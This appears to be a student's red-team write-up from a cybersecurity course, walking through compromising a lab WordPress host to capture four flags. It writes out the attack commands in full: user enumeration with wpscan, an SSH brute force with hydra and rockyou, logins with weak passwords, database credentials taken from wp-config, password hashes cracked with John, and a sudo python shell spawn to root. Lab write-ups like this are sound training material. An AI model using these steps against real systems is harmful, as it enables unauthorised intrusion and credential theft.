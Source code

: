 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
Command: $ nmap -sV -sC -O 192.168.1.0/24
  ```
 <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Target-1_nmap.png" alt="Target1_IP" style="height: 400px; width:600px;"/>


This scan identifies the services below as potential points of entry:
   Target 1  
     1. Port 22/TCP Open SSH       
     2. Port 80/TCP Open HTTP       
     3. Port 111/TCP Open rcpbind       
     4. Port 139/TCP Open netbios-ssn     
     5. Port 445/TCP Open netbios-ssn  


The following vulnerabilities were identified on each target:     
   Target 1  
    1. User Enumeration (WordPress site)  
        - a. The stop-user-enumeration plugin before 1.3.8 for WordPress has XSS. [CVE-2017-18536](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-18536/ "CVE-2017-18536")  
        - b. WordPress Core < 4.7.1 - Username Enumeration Vulnerability CVE-2017-5487 Scanner [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-5487/ "CVE-2017-5487")  
    2. Weak user Passwords - guess or use hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh      
    3. Unsalted user Password Hash (WordPress)  
    4. Misconfiguration of User Privileges/Privilege Escalation with Python.    

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `Flag1: b9bbcb33ellb80be759c4e844862482d` _hash value_
    - **Exploit Used**
      - WPScan to enumerate users of target1 WordPress site.
      - wpscan --url http://192.168.1.110 --enumerate u
       <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wpscan_michael.png?raw=true" alt="WPScan Users"/>             

      - Brute force, `guess`, or hydra -l michael -P /usr/share/wordlists/rockyou.txt 192.168.1.110 ssh  
      - Use guess password `michael` for user michael.    
      ssh michael@192.168.1.110  
      pwd: michael  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/michael_ID.png?raw=true" alt="michael_ID"/>  
  - egrep flag* service.html
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-1_service-html.png?raw=true" alt="Flag1"/>  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/service-htmp-footer-flag1.png?raw=true" alt src="source.html" style="height: 400px; width:600px;"/>


  - `Flag2: fc3fd58dcdad9ab23faca6e9a3e581c`   
    - **Exploit Used**
      - Same exploit covered in flag1 to gain access
      - Commands:
      - ssh michael@192.168.1.110
      - pw: michael
      - cd /var/www - transverse the directory.
      - find / i-name flag*
      - cat flag2.txt
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-2.png?raw=true" alt="Flag2"/>  

  - `Flag3: afc01ab56b50591e7dccf93122770cd2`   
    - **Exploit Used**        
      - Continue using michael's credentials; locate the wp-config.php, and use mysql to explore the database.     
      - Once found, the wp-config.php displayed the db_password in plain text.

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config-php--location.png?raw=true" alt="wp_location"/>  
      - cat wp-config-php       
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/wp-config_PWD.png?raw=true" alt="wp_passwd"/>   

  - `Flag3` was found in the wp_posts table in the wordpress database.   
      - Commands:  
        - Connected to mysql: -u root -p'R@v3nSecurity'  
        - show databases;  
        - use wordpress;  
        - show tables;  
        - select * from wp_posts;  

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/myswl-logon.png?raw=true" alt="mysql-login"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_databases.png?raw=true" alt="mysql_databases"/>    
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/mysql_TABLES.png?raw=true" alt="mysql_TABLES"/>  
<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/FLAG-3_mysql_wp_posts.png?raw=true"/>


  - `Flag4: 715dea6c055b9fe3337544932f2941ce`:   
        - **Exploit Used**  
            - Use of weak salted hashes and Python root escalation Privileges.   
            - Still using michaels credentials, gather the password hashes to crack.    
            - The usernames and password hashes were copied to the kali server in a file (wp_hashes.txt), and cracked with John.    
            - select * from wp_users;  

  <img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Capture-04%20User%20table%20data.PNG?raw=true" style="height: 400px; width:600px;"/>

 - john wp_hashes.text

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Steven_Pink84.png?raw=true" style="height: 400px; width:600px;"/>

          - use Steven credentials to ssh to target1 and escalate privileges to find flag4.  
          - ssh steven@192.168.1.110
          - pw: pink84
          - sudo -l
          - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’   

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/sudo-stephen.png?raw=true"/>

          - cd /root
          - ls
          - cat flag4.txt      

<img src="https://github.com/mhighbe-20/Cybersecurity_Final_Project/blob/main/Images/RedTeam/Flag-4.png?raw=true"/>
